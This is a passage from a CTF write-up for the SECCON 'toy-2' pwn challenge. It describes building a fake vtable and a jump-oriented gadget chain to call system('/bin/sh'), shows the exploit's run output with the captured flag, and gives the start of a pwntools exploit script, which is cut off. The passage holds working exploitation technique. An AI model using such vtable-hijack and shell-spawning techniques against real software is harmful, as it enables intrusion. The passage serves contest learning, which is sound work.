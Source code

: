 ```py
```

why do we call `_start`? we don’t have good gadgets in the binary to do anything useful. however before we get another shot to input a program, there will be some `libstdc++` pointers on the heap. with a bit of work, we can also use them to calculate some gadgets and creating another fake vtable.

I decided to do some JOP, since we had control over the memory (vtable) pointed to by `rax`:

```c
1: mov r13, rax ; mov rax, qword ptr [rdi] ; call qword ptr [rax + 0x40]
2: mov rdi, r13 ; call qword ptr [rax + 0x48]
```

they worked quite well, since first (and only) vtable entry is called like this:

```c
<main+463>:	call   QWORD PTR [rax+0x8]
```

the only thing left is to place stuff correctly:

- `[rax]`: `/bin/sh` string
- `[rax+0x8]`: gadget 1 (see above)
- `[rax+0x40]`: gadget 2
- `[rax+0x48]`: `system()` address

this successfully calls `system("/bin/sh")` and we can read the flag.

```
root@bitpc:/pwd/Downloads/seccon# python3 x.py 
[+] Opening connection to toy-2.seccon.games on port 5000: Done
[*] Switching to interactive mode
[+] Running...
[-] Error: Illegal instruction
[+] Done.
[+] Running...
[-] Error: Illegal instruction
[+] Done.
$ cat /flag*
SECCON{Im4g1n3_pWn1n6_1n51d3_a_3um_CM0S}
$
```

(note: on remote the offset from `libc` to `libstdc++` didn’t match the local offset, so a little bruteforce was needed)

full exploit:
```py
from pwn import *

def _jmp(addr):
    return p16((addr & 0xfff))

def _adc(addr):
    return p16((0x1 << 12) | (addr & 0xfff))

def _xor(addr):
    return p16((0x2 << 12) | (addr & 0xfff))

def _sbc(addr):
    return p16((0x3 << 12) | (addr & 0xfff))

def _ror():
    return p16((0x4 << 12))

def _tat():
    return p16((0x5 << 12))

def _or(addr):
```